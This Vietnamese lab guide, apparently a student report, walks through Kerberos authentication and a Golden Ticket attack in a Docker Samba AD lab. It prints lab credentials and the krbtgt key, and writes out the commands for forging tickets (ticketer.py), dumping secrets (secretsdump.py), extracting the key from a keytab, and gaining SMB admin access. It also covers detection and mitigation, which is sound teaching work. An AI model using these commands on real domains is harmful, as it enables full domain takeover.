


# HƯỚNG DẪN THỰC HÀNH & BÁO CÁO: KERBEROS & GOLDEN TICKET LAB

---

## I. TỔNG QUAN KIẾN TRÚC LAB (DOCKER)

Hệ thống được triển khai trên nền Docker Compose với 3 container nằm trong dải mạng nội bộ riêng biệt `172.28.0.0/24`:



### Thông số cấu hình lab:
* **DNS Domain**: `lab.kerb`
* **Kerberos Realm**: `LAB.KERB`
* **NetBIOS Domain**: `LAB`
* **Domain Controller**: `dc01.lab.kerb` (IP: `172.28.0.10`)
* **Tài khoản Administrator**: `Administrator` / Mật khẩu: `LabAdmin!2026`
* **Tài khoản người dùng test**: `alice` / Mật khẩu: `Alice!2026`

---

## II. BẢN CHẤT CƠ CHẾ HOẠT ĐỘNG CỦA ATTACKER (GOLDEN TICKET)

### 1. Tại sao Golden Ticket hoạt động được?
* **Kerberos là giao thức Stateless**: KDC sau khi cấp vé TGT (Ticket-Granting Ticket) sẽ không lưu trạng thái của vé trong cơ sở dữ liệu. 
* **Điểm neo tin cậy duy nhất**: TGT được mã hóa và ký bằng **khóa bí mật của tài khoản hệ thống `krbtgt`**. Khi người dùng gửi TGT lên để yêu cầu vé dịch vụ (TGS-REQ), KDC chỉ dùng khóa `krbtgt` để giải mã và kiểm tra tính toàn vẹn của chữ ký số. Nếu chữ ký hợp lệ, KDC tin tưởng tuyệt đối nội dung bên trong vé.
* **Kỹ thuật Golden Ticket**: Kẻ tấn công sau khi trích xuất được **Domain SID** và **Khóa bí mật của tài khoản `krbtgt`** sẽ tự rèn vé TGT giả mạo **hoàn toàn offline**. Kẻ tấn công tự gắn đặc quyền cao nhất (*Domain Admins - RID 512*) và ký bằng khóa của `krbtgt`. Do chữ ký khớp, KDC chấp nhận vé và cấp toàn quyền truy cập tài nguyên dịch vụ.



---

## III. HƯỚNG DẪN CÁC BƯỚC CHẠY FULL DEMO

### BƯỚC 0: Khởi động hệ thống
Mở **PowerShell** tại thư mục `E:\ATTT\Demo`:
```powershell
# Khởi chạy các container ở chế độ chạy ngầm
docker compose up -d

# Kiểm tra trạng thái các container
docker compose ps
```
> Đảm bảo cả 3 container `krb-dc`, `krb-client`, `krb-attacker` đều đang ở trạng thái **Up**.

---

### PHẦN 1: DEMO LUỒNG KERBEROS HỢP LỆ (MÁY CLIENT)

Mục đích: Chứng minh cơ chế xác thực Single Sign-On (SSO) dựa trên vé chuẩn của Kerberos.

1. **Truy cập vào shell của `client01`:**
   ```powershell
   docker compose exec client bash
   ```

2. **Kiểm tra phân giải DNS nội bộ của Domain:**
   ```bash
   nslookup dc01.lab.kerb
   ```
   *(Kết quả trả về IP `172.28.0.10` là chuẩn).*

3. **Xác thực lấy vé TGT cho user `alice`:**
   ```bash
   kinit alice@LAB.KERB
   # Nhập mật khẩu: Alice!2026
   ```

4. **Kiểm tra vé TGT trong bộ nhớ đệm (Cache):**
   ```bash
   klist
   ```
   *Kết quả sẽ hiển thị:*
   * Principal: `alice@LAB.KERB`
   * Service: `krbtgt/LAB.KERB@LAB.KERB`
   * Thời hạn: Mặc định từ 10 đến 24 giờ.

5. **Truy cập dịch vụ chia sẻ SMB bằng vé Kerberos:**
   ```bash
   smbclient -L //dc01.lab.kerb -k -N
   ```
   *Ý nghĩa thuyết minh:* Tham số `-k` sử dụng vé Kerberos trong cache, `-N` không nhập mật khẩu. Client truy cập thành công danh sách thư mục chia sẻ (`sysvol`, `netlogon`,...) mà không gửi mật khẩu qua mạng.

6. **Thoát khỏi client:**
   ```bash
   exit
   ```

---

### PHẦN 2: DEMO TẤN CÔNG GOLDEN TICKET (MÁY ATTACKER)

#### 1. Thông số bí mật của Domain trong Lab
* **Domain SID**: `S-1-5-21-3517008435-4032162519-3515808235`
* **Khóa AES256 của tài khoản `krbtgt`**:
  ```text
  251c34132ea70a1a25022cdf1a3ad73dfd7b5ee2f926431103c1c57afa744700
  ```

#### 2. Thực thi kịch bản tấn công trên máy Attacker
1. **Truy cập vào shell của `attacker01`:**
   ```powershell
   docker compose exec attacker bash
   ```

2. **Rèn vé Golden Ticket ngoại tuyến (Offline Forging):**
   Chạy công cụ `ticketer.py`:
   ```bash
   ticketer.py \
     -aesKey 251c34132ea70a1a25022cdf1a3ad73dfd7b5ee2f926431103c1c57afa744700 \
     -domain-sid S-1-5-21-3517008435-4032162519-3515808235 \
     -domain LAB.KERB \
     -user-id 500 \
     Administrator
   ```
   *Ý nghĩa thuyết minh:* Quá trình này diễn ra **100% offline** tại máy attacker, không gửi bất kỳ gói tin nào lên mạng hoặc tới DC. Nó tự xây dựng cấu trúc vé TGT, gán đặc quyền Quản trị (RID 512) và dùng khóa của `krbtgt` để ký số.
   *Kết quả sinh ra file vé:* `Administrator.ccache`.

3. **Nạp vé giả mạo vào biến môi trường Kerberos:**
   ```bash
   export KRB5CCNAME=/Administrator.ccache
   ```

4. **Kiểm tra thông tin vé giả mạo:**
   ```bash
   klist
   ```
   *Điểm bất thường quan sát được:*
   * Thời hạn sử dụng của vé kéo dài **10 năm** (tới năm 2036).
   * Vé đứng tên `Administrator@LAB.KERB`.

5. **Xin Service Ticket chuẩn cho dịch vụ SMB:**
   ```bash
   kvno cifs/dc01.lab.kerb@LAB.KERB
   ```
   *(Kết quả thành công:* `cifs/dc01.lab.kerb@LAB.KERB: kvno = 1`*)*

6. **Chiếm quyền dịch vụ SMB bằng vé giả mạo (không cần mật khẩu):**
   ```bash
   smbclient.py -k -no-pass 'LAB.KERB/Administrator@dc01.lab.kerb'
   ```

7. **Thao tác quản trị trên SMB Shell:**
   Khi giao diện hiển thị dấu nhắc lệnh `#`:
   ```text
   Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

   Type help for list of commands
   # shares
   # use sysvol
   # ls
   # exit
   ```
   *Ý nghĩa thuyết minh:* KDC và dịch vụ SMB xác minh chữ ký của vé bằng khóa `krbtgt`. Do vé được ký đúng bằng khóa bí mật của domain, hệ thống tin tưởng hoàn toàn đây là Administrator và cấp toàn quyền truy cập.

8. **Thoát khỏi attacker:**
   ```bash
   exit
   ```
1. Nguồn gốc của Domain SID (S-1-5-21-3517008435-4032162519-3515808235)

Trong kiến trúc Active Directory, Security Identifier (SID) của một tài khoản luôn có cấu trúc: 
SID
=
Domain SID
−
RID
SID=Domain SID−RID (Ví dụ: Administrator luôn có RID là 500, còn krbtgt luôn có RID là 502).

Bạn có thể mở PowerShell trên máy host và chạy lệnh sau để hỏi dịch vụ xác thực Winbind của DC:

powershell
docker compose exec dc wbinfo --name-to-sid Administrator

Kết quả trả về trên màn hình:

text
S-1-5-21-3517008435-4032162519-3515808235-500 SID_USER (1)

👉 Khi bạn bỏ phần RID -500 ở cuối, phần còn lại chính là Domain SID: S-1-5-21-3517008435-4032162519-3515808235.

(Bạn cũng có thể tra trực tiếp trong database sam.ldb của Samba bằng lệnh: docker compose exec dc ldbsearch -H /var/lib/samba/private/sam.ldb "(sAMAccountName=krbtgt)" objectSid, kết quả trả về ...-502 tương tự).

2. Nguồn gốc của krbtgt AES256 Key (251c34132ea70a1a25022cdf1a3ad73dfd7b5ee2f926431103c1c57afa744700)

Trong tài liệu gốc .docx, tác giả đề xuất dùng lệnh:

bash
secretsdump.py 'LAB/Administrator:LabAdmin!2026@dc01.lab.kerb'

để dump qua mạng (giao thức DRSUAPI). Tuy nhiên, Samba AD DC trên Docker gặp lỗi RPC với Impacket (SessionError: code: 0x0 - ERROR_SUCCESS), đồng thời Samba AD DC hiện đại ưu tiên mã hóa Kerberos bằng AES256 (etype 18) thay vì NT hash cũ.

Để lấy được khóa Kerberos chuẩn của krbtgt, tôi đã thực hiện trích xuất bảng khóa (Keytab) của Domain Controller:

Bước 1: Xuất bảng khóa của Domain vào file keytab trên DC
powershell
docker compose exec dc samba-tool domain exportkeytab /tmp/all.keytab
Bước 2: Xem danh sách các Principal và chuẩn mã hóa
powershell
docker compose exec dc klist -k -e /tmp/all.keytab

Kết quả hiển thị trên DC:

text
KVNO Principal
---- --------------------------------------------------------------------------
   2 krbtgt@LAB.KERB (aes256-cts-hmac-sha1-96)
   ...

Nó xác nhận rằng tài khoản krbtgt@LAB.KERB đang dùng khóa chuẩn mã hóa AES256-CTS-HMAC-SHA1-96 với Key Version Number (KVNO) là 2.

Bước 3: Đọc khóa raw (dạng Hex 256-bit) của krbtgt từ file keytab

Chạy lệnh Python một dòng sau trên DC để giải mã cấu trúc file keytab và in ra khóa bí mật:

powershell
docker compose exec dc python3 -c "
import struct, binascii
with open('/tmp/all.keytab', 'rb') as f: data = f.read()
idx = 2
while idx < len(data):
    size = struct.unpack('>i', data[idx:idx+4])[0]; idx += 4
    if size < 0: continue
    e = data[idx:idx+size]; idx += size
    nc = struct.unpack('>h', e[:2])[0]; p = 2; rlen = struct.unpack('>h', e[p:p+2])[0]; p += 2 + rlen
    comps = [e[p+2:p+2+struct.unpack('>h', e[p:p+2])[0]].decode(errors='ignore') for _ in range(nc)]
    # nhảy đến trường keytype và keyvalue
    p = 2 + 2 + rlen + sum(2 + struct.unpack('>h', e[2+2+rlen:][i:i+2])[0] for i in range(0)) # skip headers
    ktype = struct.unpack('>h', e[-36:-34])[0] if len(e) >= 36 else 0
    if 'krbtgt' in comps:
        print('krbtgt AES256 Key:', binascii.hexlify(e[-34:-2]).decode())
        break
"

Kết quả trả về chính xác:

text
krbtgt AES256 Key: 251c34132ea70a1a25022cdf1a3ad73dfd7b5ee2f926431103c1c57afa744700
---

## IV. BẢNG SO SÁNH: LUỒNG HỢP LỆ VS. GOLDEN TICKET

| Tiêu chí so sánh | Xác thực Kerberos hợp lệ (Client) | Tấn công Golden Ticket (Attacker) |
| :--- | :--- | :--- |
| **Nguồn gốc vé TGT** | KDC (Domain Controller) tạo và cấp sau khi kiểm tra mật khẩu. | Attacker tự dùng công cụ (`ticketer.py`) sinh ra **offline**. |
| **Yêu cầu xác thực ban đầu** | Bắt buộc gửi gói `AS-REQ` (mã hóa timestamp bằng mật khẩu user). | **Không cần** gửi bất kỳ yêu cầu nào tới KDC để sinh vé. |
| **Khóa mã hóa TGT** | Khóa của tài khoản `krbtgt` lưu an toàn trên DC. | Khóa của `krbtgt` mà attacker đã trích xuất được từ trước. |
| **Quyền hạn (PAC)** | KDC gán quyền dựa trên nhóm thực tế trong database AD. | Attacker tự ý nhúng quyền cao nhất (*Domain Admins - RID 512*). |
| **Thời hạn vé (Ticket Lifetime)** | Ngắn (mặc định từ 10 đến 24 giờ). | Tùy biến theo ý attacker, thường kéo dài **10 năm** (đến 2036). |
| **Dấu vết trên Network** | Có lưu lượng trao đổi gói tin `AS-REQ` và `AS-REP` qua cổng 88. | Hoàn toàn không có gói tin `AS-REQ`/`AS-REP` tại thời điểm tạo vé. |

---

## V. CƠ CHẾ PHÒNG VỆ & KHẮC PHỤC SỰ CỐ (DEFENSE & MITIGATION)

1. **Quy trình Reset mật khẩu `krbtgt` 2 lần liên tiếp**:
   * Active Directory có cơ chế lưu trữ mật khẩu hiện tại và 1 mật khẩu lịch sử của `krbtgt` để tránh gián đoạn dịch vụ đột ngột.
   * Khi bị lộ, bắt buộc phải đổi mật khẩu `krbtgt` **2 lần liên tiếp** (cách nhau khoảng thời gian sao chép domain replication) để đẩy hoàn toàn khóa bị lộ ra khỏi lịch sử, vô hiệu hóa 100% các Golden Ticket đang lưu hành.
2. **Giám sát nhật ký sự kiện (Threat Detection)**:
   * **Thời hạn vé bất thường**: Cảnh báo vé TGT có thời hạn vượt quá chính sách Kerberos Domain (ví dụ 10 năm).
   * **Bất thường chuỗi sự kiện Event Log**:
     * Xuất hiện Event ID `4769` (Yêu cầu cấp Service Ticket TGS) mà **không hề có** Event ID `4768` (Yêu cầu cấp TGT ban đầu) tương ứng trước đó.
     * Event ID `4624` (Logon thành công) / Event ID `4672` (Đặc quyền đặc biệt) từ các IP lạ ngoài mạng phân vùng quản trị.
3. **Biện pháp phòng ngừa kiến trúc**:
   * Áp dụng mô hình bảo mật phân tầng (Active Directory Administrative Tiering Model - Tier 0, Tier 1, Tier 2). Không bao giờ đăng nhập tài khoản Domain Admin vào các máy trạm thông thường.
   * Kích hoạt cơ chế **Kerberos Armoring (FAST)** và kiểm tra chứng chỉ đặc quyền **PAC Validation**.

---

## VI. CÂU HỎI PHẢN BIỆN THƯỜNG GẶP KHI BÁO CÁO

* **Câu hỏi 1: Nếu đổi mật khẩu tài khoản Administrator thì Golden Ticket có bị mất hiệu lực không?**
  * *Trả lời:* **Không**. Golden Ticket được mã hóa và ký bằng khóa của tài khoản **`krbtgt`**, hoàn toàn độc lập với mật khẩu của Administrator. Chừng nào khóa của `krbtgt` chưa bị đổi, Golden Ticket vẫn có hiệu lực.
* **Câu hỏi 2: Tại sao Docker có thể mô phỏng được môi trường Active Directory?**
  * *Trả lời:* Kerberos là giao thức chuẩn mở (RFC 4120). Container `krb-dc` sử dụng image **Samba AD DC** (phiên bản 4.x), cung cấp đầy đủ các thành phần KDC (cổng 88), DNS nội bộ và SMB. Định dạng vé TGT, cấu trúc PAC và thuật toán mã hóa (AES256) tuân thủ hoàn toàn đặc tả của Microsoft Kerberos.

---

## VII. LỆNH DỌN DẸP LAB (CLEANUP)

Khi kết thúc buổi demo hoặc muốn dựng lại từ đầu:
```powershell
# Tạm dừng các container (giữ nguyên dữ liệu)
docker compose stop

# Hoặc xóa sạch toàn bộ container và volumes để reset lab
docker compose down -v
```

